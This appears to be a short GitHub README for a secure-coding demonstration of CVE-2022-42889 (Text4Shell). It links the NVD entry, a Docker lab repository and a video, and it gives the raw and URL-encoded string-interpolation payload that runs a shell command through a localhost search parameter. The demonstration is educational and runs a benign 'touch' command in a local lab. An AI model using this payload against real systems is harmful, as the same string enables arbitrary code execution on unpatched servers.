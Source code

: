 # SecureCodingDemo
CVE-2022-42889
National Vulnerability Database link : https://nvd.nist.gov/vuln/detail/CVE-2022-42889#vulnCurrentDescriptionTitle

The program I used was written by karthikuj on github. I will link here the repository that contains the code as well as instructions on how you can perform this exploit on the sample program.

Github: https://github.com/karthikuj/cve-2022-42889-text4shell-docker


I learned of this vulnerability from this youtube video i stumbled upon, the exploit they perform is slightly different than the one i demonstrated.

youtube link: https://www.youtube.com/watch?v=UL6dWqSOdkQ


The code passed through the URL to the Program(append to search):

${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}


NOTE: URL Encode may be necessary

Encoded:  http://localhost/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D



